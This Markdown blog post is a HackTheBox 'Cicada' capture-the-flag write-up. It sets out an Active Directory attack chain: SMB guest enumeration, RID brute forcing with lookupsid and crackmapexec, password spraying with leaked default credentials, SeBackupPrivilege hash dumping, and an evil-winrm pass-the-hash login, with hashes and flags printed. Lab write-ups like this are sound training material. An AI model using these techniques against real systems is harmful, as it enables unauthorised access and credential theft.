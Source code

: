 ```yaml
---
layout: post
title: "HackTheBox: Cicada - Writeup 01/10/2024"
description: A writeup for Hackthebox Cicada
date:   2024-10-01 12:06:31 +0000
image:  '/images/post/cicada.jpg'
tags:   [Hackthebox]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/cicada/scans; cd ~/ctf/HackTheBox/cicada`
IP Address: 10.10.11.35


`echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts`
10.10.11.35 cicada.htb
***
### Enumeration 

`nmap -sC -sV -Pn -p- cicada.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 cicada.htb`
```
# nmap findings


PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack
88/tcp    open  kerberos-sec   syn-ack
135/tcp   open  msrpc          syn-ack
139/tcp   open  netbios-ssn    syn-ack
389/tcp   open  ldap           syn-ack
445/tcp   open  microsoft-ds   syn-ack
464/tcp   open  kpasswd5       syn-ack
593/tcp   open  http-rpc-epmap syn-ack
636/tcp   open  ldapssl        syn-ack
5985/tcp  open  wsman          syn-ack
50767/tcp open  unknown        syn-ack

```



Found Note from HR.txt in SMB guest share 
```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp

```

Using RID/ SID Brute forcing we get the following 
`lookupsid.py guest@10.10.11.35 -no-pass`
`crackmapexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
`
```


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

```
User list:
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
using crackmapexec we get `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

![a3dc4c40b6f42502459af7e6395c1254.png]({{site.baseurl}}/images/post/a3dc4c40b6f42502459af7e6395c1254.png)

we get another password from description
`david.orelious:aRt$Lp#7t*VQ!3`


We get access to dev share 
![34441f2039f6b63a54906459f729cc07.png]({{site.baseurl}}/images/post/34441f2039f6b63a54906459f729cc07.png)

in dev share we find password for emily.oscars
![a657aa4feeb1cc95ddea85677ba42e46.png]({{site.baseurl}}/images/post/a657aa4feeb1cc95ddea85677ba42e46.png)

`emily.oscars:Q!3@Lp#M6b*7t*Vt`


***
# user flag
Location: C:\Users\emily.oscars.CICADA\Desktop | Flag: e83a7cc211031524c13a199fa637d0b1
```

***
#### Privilege Escalation

```

using assigned privileges we use **SeBackupPrivilege**
![dac3b5623835eb4b5f326cc61c9692a4.png]({{site.baseurl}}/images/post/dac3b5623835eb4b5f326cc61c9692a4.png)
![f64d2c81ec0ab99f35e7378c710d136b.png]({{site.baseurl}}/images/post/f64d2c81ec0ab99f35e7378c710d136b.png)
![f6bf22feda995b69a53d929da6340581.png]({{site.baseurl}}/images/post/f6bf22feda995b69a53d929da6340581.png)
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

using Pass-the-hash `evil-winrm -i 10.10.11.35 -u 'administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' 
`


# root flag
Location: :\Users\Administrator\Desktop | Flag: b1dc73a0bb9e94681e494c80388d99f3
```

```